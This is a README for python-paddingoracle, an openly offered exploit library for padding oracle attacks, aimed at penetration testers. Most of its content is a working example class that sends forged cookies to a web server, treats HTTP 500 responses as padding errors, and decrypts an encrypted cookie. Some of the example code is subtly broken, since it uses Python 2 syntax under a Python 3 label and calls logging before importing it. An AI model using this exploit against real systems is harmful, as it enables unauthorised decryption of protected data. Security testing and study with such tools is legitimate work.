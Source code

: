 python-paddingoracle: A portable, padding oracle exploit API
============================================================

UPDATED FOR PYTHON 3

python-paddingoracle is an API that provides pentesters a customizable
alternative to `PadBuster`_ and other padding oracle exploit tools that can't
easily (without a heavy rewrite) be used in unique, per-app scenarios. Think
non-HTTP applications, raw sockets, client applications, unique encodings, etc.

Usage:
------

To use the paddingoracle API, simply implement the **oracle()** method from the
PaddingOracle API and raise a **BadPaddingException** when the decrypter
reveals a padding oracle. To decrypt data, pass raw encrypted bytes to
**decrypt()** with a block size (typically 8 or 16) and optional iv parameter.

See below for an example (from `the example`_): ::

    from paddingoracle import BadPaddingException, PaddingOracle
    from base64 import b64encode, b64decode
    from urllib import quote, unquote
    import requests
    import socket
    import time

    class PadBuster(PaddingOracle):
        def __init__(self, **kwargs):
            super(PadBuster, self).__init__(**kwargs)
            self.session = requests.Session()
            self.wait = kwargs.get('wait', 2.0)

        def oracle(self, data, **kwargs):
            somecookie = quote(b64encode(data))
            self.session.cookies['somecookie'] = somecookie

            while 1:
                try:
                    response = self.session.get('http://www.example.com/',
                            stream=False, timeout=5, verify=False)
                    break
                except (socket.error, requests.exceptions.RequestException):
                    logging.exception('Retrying request in %.2f seconds...',
                                      self.wait)
                    time.sleep(self.wait)
                    continue

            self.history.append(response)

            if response.ok:
                logging.debug('No padding exception raised on %r', somecookie)
                return

            # An HTTP 500 error was returned, likely due to incorrect padding
            raise BadPaddingException

    if __name__ == '__main__':
        import logging
        import sys

        if not sys.argv[1:]:
            print 'Usage: %s <somecookie value>' % (sys.argv[0], )
            sys.exit(1)

        logging.basicConfig(level=logging.DEBUG)

        encrypted_cookie = b64decode(unquote(sys.argv[1]))

        padbuster = PadBuster()

        cookie = padbuster.decrypt(encrypted_cookie, block_size=8, iv=bytearray(8))

        print('Decrypted somecookie: %s => %r' % (sys.argv[1], cookie))


Credits
-------
python-paddingoracle is a Python implementation heavily based on `PadBuster`_,
an automated script for performing Padding Oracle attacks, developed by
Brian Holyfield of Gotham Digital Science.

.. _`the example`: https://github.com/mwielgoszewski/python-paddingoracle/blob/master/example.py
.. _`PadBuster`: https://github.com/GDSSecurity/PadBuster
